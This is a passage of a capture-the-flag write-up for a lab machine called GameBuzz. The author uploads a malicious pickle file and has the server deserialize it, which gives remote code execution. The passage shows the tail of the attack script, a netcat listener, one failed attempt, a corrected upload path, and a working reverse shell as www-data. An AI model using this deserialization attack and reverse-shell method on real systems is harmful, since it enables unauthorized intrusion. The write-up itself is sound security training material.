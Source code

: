 ```py
    pickleRequestResult = requests.post(pickleURL, json=pickleData)
    print(f'[*] Fetch pickle request:\n{pickleRequestResult.text}')

if __name__ == '__main__':
    main()
```

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/GameBuzz)-[2023.01.24|13:14:25(HKT)]
└> nc -lnvp 443
listening on [any] 443 ...
```

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/GameBuzz)-[2023.01.24|13:16:47(HKT)]
└> python3 upload_file.py
[*] Upload file request:
The file evilObject.pkl has been uploaded
[*] Fetch pickle request:
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>
```

Nope. The path traversal doesn't work.

**After some trial and error, I found that the uploaded file is in `/var/upload/<filename>`:**
```py
    file = {
        'the_file': (f'/var/upload/{filename}', pickle.dumps(PickleRCE()))
    }

    pickleData = {'object': f'/var/upload/{filename}'}
```

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/GameBuzz)-[2023.01.24|13:18:33(HKT)]
└> python3 upload_file.py
[*] Upload file request:
The file evilObject.pkl has been uploaded

```

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/GameBuzz)-[2023.01.24|13:14:25(HKT)]
└> nc -lnvp 443
listening on [any] 443 ...
connect to [10.9.0.253] from (UNKNOWN) [10.10.115.32] 48784
bash: cannot set terminal process group (916): Inappropriate ioctl for device
bash: no job control in this shell
www-data@incognito:/$ whoami;hostname;id;ip a
whoami;hostname;id;ip a
www-data
incognito
uid=33(www-data) gid=33(www-data) groups=33(www-data),1002(nosu)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:8b:df:7d:19:1f brd ff:ff:ff:ff:ff:ff
    inet 10.10.115.32/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2339sec preferred_lft 2339sec
```